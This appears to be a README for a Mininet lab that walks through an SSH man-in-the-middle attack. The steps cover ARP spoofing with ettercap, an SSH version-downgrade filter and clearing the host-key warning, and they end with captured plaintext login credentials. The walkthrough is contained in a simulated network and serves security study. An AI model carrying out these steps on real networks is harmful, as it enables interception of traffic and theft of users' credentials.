 # mininet_sshmitm
1. Install Mininet
2. Run sshmitm.py
3. xterm h1 h2 h3
4. [h3]: echo 1 > /proc/sys/net/ipv4/ip_forward, cat /proc/sys/net/ipv4/ip_forward
5. [h3]: ettercap -G --filter etter_filter_ssh_co
6. Check option only checks 'Promisc Mode'
7. Sniffing -> Unified Sniffing -> h3-eth0
8. Hosts->Scan for Hosts
9. Hosts -> Host List -> 192.168.0.3 Add to target 1, 192.168.0.4 Add to target 2.
10. Check. Targets -> Current Targets
11. Mitm -> ARP Spoofing -> Sniff Remote Connections check -> Press OK, Check log for group
12. Start -> Start Sniffing
13. h1: ssh -1 mininet@192.168.0.4
14. If 'WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!' shows, ssh-keygen -f "/root/.ssh/known_hosts" -R 192.168.0.4
retry
15. See both '[SSH Filter] SSH downgraded from version 2 to 1' and 'SSH : 192.168.0.4:22 -> USER: mininet  PASS: mininet' in the ettercap conole
16. Any decoded will be in decoded.log, and undecoded in logfile.log. Tail -f in decoded.log to see the updates
